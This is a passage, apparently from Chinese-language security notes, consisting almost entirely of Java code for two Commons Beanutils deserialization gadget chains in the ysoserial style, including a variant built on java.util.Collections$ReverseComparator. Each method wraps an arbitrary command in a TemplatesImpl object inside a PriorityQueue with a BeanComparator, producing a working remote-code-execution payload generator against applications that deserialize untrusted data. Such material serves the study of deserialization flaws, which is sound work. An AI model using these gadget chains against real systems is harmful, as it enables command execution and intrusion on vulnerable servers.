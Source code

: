 ![image-20230809150252695](attachments/image-20230809150252695.png)

```java
public Queue<Object> getObject(String command) throws Exception {
  final Object templates = Gadgets.createTemplatesImpl(command);
  AttrNSImpl attrNS1 = new AttrNSImpl(new CoreDocumentImpl(),"1","1","1");

  BeanComparator beanComparator = new BeanComparator(null, new AttrCompare());
  PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
  queue.add(attrNS1);
  queue.add(attrNS1);

  Reflections.setFieldValue(queue, "queue", new Object[] { templates, templates });
  Reflections.setFieldValue(beanComparator, "property", "outputProperties");

  return queue;
}
```

## 0X07 CommonsBeanutilsReverseComparator

之前提到的 `java.util.Collections$ReverseComparator` 链

```java
public Queue<Object> getObject(String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);

    // java.util.Collections.ReverseComparator
    Comparator obj = (Comparator) Reflections.newInstance("java.util.Collections$ReverseComparator");

    BeanComparator beanComparator = new BeanComparator(null, obj);
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
    queue.add("1");
    queue.add("1");

    Reflections.setFieldValue(queue, "queue", new Object[]{templates, templates});
    Reflections.setFieldValue(beanComparator, "property", "outputProperties");

    return queue;
}
```
